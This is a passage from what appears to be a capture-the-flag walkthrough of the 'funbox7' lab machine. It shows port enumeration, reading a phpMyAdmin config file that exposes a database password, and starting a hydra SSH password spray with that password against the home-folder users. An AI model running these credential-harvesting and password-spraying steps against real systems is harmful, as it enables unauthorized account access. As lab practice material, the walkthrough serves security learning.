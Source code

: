 ```bash
www-data@funbox7:/$ ss -tupln
ss -tupln
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port
udp    UNCONN   0        0           127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN   0        80              127.0.0.1:3306          0.0.0.0:*
tcp    LISTEN   0        128         127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN   0        128               0.0.0.0:22            0.0.0.0:*
tcp    LISTEN   0        128                     *:80                  *:*
tcp    LISTEN   0        128                  [::]:22               [::]:*
```

Looking for config files, I find one in `/etc/phpmyadmin`:

```bash
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
<SNIP>
```

So, ```tgbzhnujm!``` is a password. Before I check MySQL and dump what information I can from these creds, I'm curious to see if anyone in the home folder has this as a password. I get the users and then password spray with hydra:

```bash
www-data@funbox7:/etc/phpmyadmin$ ls -l /home
total 20
drwxr-xr-x 2 goat   goat   4096 Feb 16  2021 goat
drwxr-xr-x 2 harry  harry  4096 Jan 28  2021 harry
drwxr-xr-x 2 karla  karla  4096 Feb 16  2021 karla
drwxr-xr-x 2 oracle oracle 4096 Feb 16  2021 oracle
drwxr-xr-x 2 sally  sally  4096 Jan 28  2021 sally

#on attacker
$ cat users.txt
goat
harry
karla
oracle
sally

$ hydra -L users.txt -p 'tgbzhnujm!' ssh://192.168.122.132
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-28 17:25:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```